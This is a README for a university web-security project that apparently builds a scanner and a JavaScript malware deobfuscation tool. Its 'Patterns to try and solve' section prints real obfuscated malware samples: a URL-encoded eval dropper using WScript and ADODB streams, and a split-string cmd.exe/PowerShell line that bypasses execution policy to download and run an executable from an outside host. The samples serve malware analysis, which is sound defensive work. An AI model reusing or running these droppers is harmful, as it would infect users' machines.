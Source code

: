# aau-security
Web application security project

## Nidan

A tool for scanning a huge range of web sites for security related issues, such as using an outdated JavaScript library.

## Privacy Badger fork for Nidan

See [jwindelborg/privacybadger](https://github.com/jwindelborg/privacybadger/)

This fork sends information regarding actions to a HTTP listener while not editing or blocking anything in Chrome.

## Database conventions

See [new_db_conventions.md](https://github.com/jwindelborg/aau-security/new_db_conventions.md)

## PyWare

Tool for analyzing JavaScript malware

To test the tool it is suggested to look at [HynekPetrak/javascript-malware-collection](https://github.com/HynekPetrak/javascript-malware-collection)

### Potential good files to test

* `20170122_38f3734379c19b7bfbb48e9f6ed4ca84.js`
* `20170118_e2e16d7c80ecd56b18d8b159cfda06bf.js`
* `20170323_05a3cc924d4c8c0699f8d72342482e51.js`
* `0160517_14d08a9ae081077e81db242655153c4b.js` -- Mentions Denmark?
* `20170301/20170301_bf55dc97b611f894f3550515d45a4171.js`
* `20170412_5a0493b8e4e62ae6455d848b644c21a3.js` -- Maybe a pretty good next step to be able to handle this file 

### PyWare todo

- [x] Handle simple string concatenations like `var t4 = "ht"+"tp";`
- [x] Handle string concatenations with declared string variables like `t4 + ":"+ter+ter` where *t4* is the *t4* assigned above
- [ ] Perform substring manipulations such as `var yYIMi = feuJN.substring(n, n+(304-303));` find more with `ag "\."substring"\("`
- [ ] Handle trivial arrays of strings
- [ ] Look more into reverse, split, join, charCodeAt and  charAt


### Patterns to try and solve

**Url encoding**

`20160328_509659787b4b25701f16c342ecb991fd.js`
```JavaScript
eval(keyHooks("_%20%3D%20%28%22WScr%22%29%2C%20superMatcher%20%3D%20%28%22Obje%22%29%3Bcontains%20%3D%20%28%22Slee%22%29%3B%20disabled%20%3D%20%28%22TP.3.%22%29%3B%20removeEventListener%20%3D%20%28%22T%22%29%3B%20overflowY%20%3D%20%28%22Sl%22%29%3Bstate%20%3D%20%285%29%3B%20needsContext%20%3D%20%28%22.6.0%22%29%3Belem%20%3D%20%28%22un%22%29%2C%20option%20%3D%20%28%22verX%22%29%3BpreDispatch%20%3D%20%2827%29%3Bfix%20%3D%20%28%22teObje%22%29%3B%20idx%20%3D%20%2889%29%3B%20dest%20%3D%20%28%22s%22%29%3B%20defaultExtra%20%3D%20%2829%29%3B%20first%20%3D%20%28%22op%22%29%3Bexpand%20%3D%20%28%22ADO%22%29%3B%20scale%20%3D%20%28%22Msxm%22%29%3B%20seekingTransport%20%3D%20%2864%29%3B%20all%20%3D%20%28%22Expan%22%29%3B%20timeout%20%3D%20%28%22hel%22%29%3B%20seed%20%3D%20%28%22t.cor%22%29%3Bvar%20bind%20%3D%20%28%22ateObj%22%29%2C%20winnow%20%3D%20%28%22eep%22%29%2C%20toggle%20%3D%20%282%29%2C%20textContent%20%3D%20%28%22rt%22%29%2C%20old%20%3D%20%281%29%3Bvar%20finalValue%20%3D%20%28%22/NOZ8%22%29%3BdefaultView%20%3D%20%2841%29%3B%20cached%20%3D%20eval%3B%20i%20%3D%20%28%22SaveT%22%29%3B%20match%20%3D%20%28%22totype%22%29%3B%20rxhtmlTag%20%3D%20%28%22ty%22%29%3BpostFinder%20%3D%20%28%22LHT%22%29%3B%20dataAndEvents%20%3D%20%28%22t%22%29%3B%20isPlainObject%20%3D%20%28%22uctor%22%29%3B%20rtypenamespace%20%3D%20%28%22iro%22%29%3B%20returned%20%3D%20%28122%29%3B%20get%20%3D%20%28%22d%22%29%3Bw%20%3D%20%289%29%3B%20cacheLength%20%3D%20%28%22Msxml%22%29%3B%20camelCase%20%3D%20%28%22length%22%29%3B%20css%20%3D%20%28%22P.6.%22%29%3BmozMatchesSelector%20%3D%20%28%22e%22%29%2C%20createFxNow%20%3D%20%28%22%3A//eku%22%29%2C%20cssPrefixes%20%3D%20%28218%29%3Bvar%20completeDeferred%20%3D%20%28%228JY.%22%29%2C%20safeActiveElement%20%3D%20%28function%20documentIsHTML%28%29%7B%7D%2C%20%22Stream%22%29%3Bvar%20triggered%20%3D%20%28%22stat%22%29%2C%20dataFilter%20%3D%20%28%22http%22%29%3BcreateCache%20%3D%20%2837%29%2C%20nativeStatusText%20%3D%20%28%22Micros%22%29%2C%20addToPrefiltersOrTransports%20%3D%20%28%22P%25/%22%29%2C%20getComputedStyle%20%3D%20%28function%20documentIsHTML.getAttribute%28%29%7Bvar%20nodeNameSelector%3D%20%5B%5D%5B%22constr%22%20+%20isPlainObject%5D%5B%22pro%22%20+%20match%5D%5B%22so%22%20+%20textContent%5D%5B%22apply%22%5D%28%29%3B%20return%20nodeNameSelector%3B%7D%2C%20%22WScrip%22%29%3Bwhat%20%3D%20%2814%29%3BcssFn%20%3D%20%28%22.com/%22%29%2C%20_queueHooks%20%3D%20%28%22verXML%22%29%2C%20undelegate%20%3D%20%28%22WSc%22%29%2C%20callbackName%20%3D%20%28%22MLHTT%22%29%3Bpop%20%3D%20%28%22n%22%29%2C%20rfxtypes%20%3D%20%28%22trings%22%29%2C%20noCloneChecked%20%3D%20%28%22nseBo%22%29%2C%20bubbleType%20%3D%20%28%22.XMLH%22%29%3Bbinary%20%3D%20%28%22dyS%22%29%2C%20nodeName%20%3D%20%28162%29%2C%20compareDocumentPosition%20%3D%20%28%22icc%22%29%3Brquery%20%3D%20%28114%29%3B%20left%20%3D%20%28%22.XM%22%29%3BnodeValue%20%3D%20%28%22pt%22%29%3B%20mapped%20%3D%20%28200%29%3B%20result%20%3D%20%283%29%3B%3B"));
// Url deded string
= ("WScr"), superMatcher = ("Obje");contains = ("Slee"); disabled = ("TP.3."); removeEventListener = ("T"); overflowY = ("Sl");state = (5); needsContext = (".6.0");elem = ("un"), option = ("verX");preDispatch = (27);fix = ("teObje"); idx = (89); dest = ("s"); defaultExtra = (29); first = ("op");expand = ("ADO"); scale = ("Msxm"); seekingTransport = (64); all = ("Expan"); timeout = ("hel"); seed = ("t.cor");var bind = ("ateObj"), winnow = ("eep"), toggle = (2), textContent = ("rt"), old = (1);var finalValue = ("/NOZ8");defaultView = (41); cached = eval; i = ("SaveT"); match = ("totype"); rxhtmlTag = ("ty");postFinder = ("LHT"); dataAndEvents = ("t"); isPlainObject = ("uctor"); rtypenamespace = ("iro"); returned = (122); get = ("d");w = (9); cacheLength = ("Msxml"); camelCase = ("length"); css = ("P.6.");mozMatchesSelector = ("e"), createFxNow = ("://eku"), cssPrefixes = (218);var completeDeferred = ("8JY."), safeActiveElement = (function documentIsHTML(){}, "Stream");var triggered = ("stat"), dataFilter = ("http");createCache = (37), nativeStatusText = ("Micros"), addToPrefiltersOrTransports = ("P%/"), getComputedStyle = (function documentIsHTML.getAttribute(){var nodeNameSelector= []["constr"   isPlainObject]["pro"   match]["so"   textContent]["apply"](); return nodeNameSelector;}, "WScrip");what = (14);cssFn = (".com/"), _queueHooks = ("verXML"), undelegate = ("WSc"), callbackName = ("MLHTT");pop = ("n"), rfxtypes = ("trings"), noCloneChecked = ("nseBo"), bubbleType = (".XMLH");binary = ("dyS"), nodeName = (162), compareDocumentPosition = ("icc");rquery = (114); left = (".XM");nodeValue = ("pt"); mapped = (200); result = (3);;
```

This patterns seems common, where meaningful strings are breaked by some kind of variable

```
var aznecad = "cmd.exe /c " + amgizann + "  $hemip='^emp+''\ebbydlu.';$ylqilgi='^wnloadFile(''ht';$pequ='^tp://seehasena';$yxfefb='^Scope    Process;';$yhoz='^olicy    Bypass -';$ryhu='^$path); Start-';$yqyv='^exe'');(New-Obj';$vilwidt='^s/outloo.exe'',';$jiwa='^Set-ExecutionP';$wxagyz='^chter.de/Style';$obsesu='^Process $path';$kwezcof='^ect   System.Net';$anezsy='^.Webclient).Do';$iculci='^ $path=($env:t'; Invoke-Expression ($jiwa+$yhoz+$yxfefb+$iculci+$hemip+$yqyv+$kwezcof+$anezsy+$ylqilgi+$pequ+$wxagyz+$vilwidt+$ryhu+$obsesu);\"";
```

```
var _87g6sd5fg = _87867t67t6gt["En"+"vi"+""+"ron"+"men"+"t"]("SY"+"S"+"T"+"E"+"M");
```

### Commands to help handle 40GB malware

We have ~40GiB JavaScript malware, spread in 39480 files selecting good files for debugging and testing can be challenging, the following command is a nice start.

It tries to find string concatenations and it uses [ag](https://github.com/ggreer/the_silver_searcher).

```
ag \"\ "\+"\ \"
```

To find and cat the files from the list use

```
find -name "*20170122_38f3734379c19b7bfbb48e9f6ed4ca84.js" -exec cat {} +
```

Another satisfying command to try is

```
ag \"\;"\n"
```

String concatenation with array
```
 ag \]\ "\+"\ \"
 ```

Var assignments starting with a string

```
 ag "(var )(([a-zA-Z])([a-zA-Z0-9$_])*)( = \")(([a-zA-Z0-9$_/:%.?=&()\-\,])*)(\")"
 ```
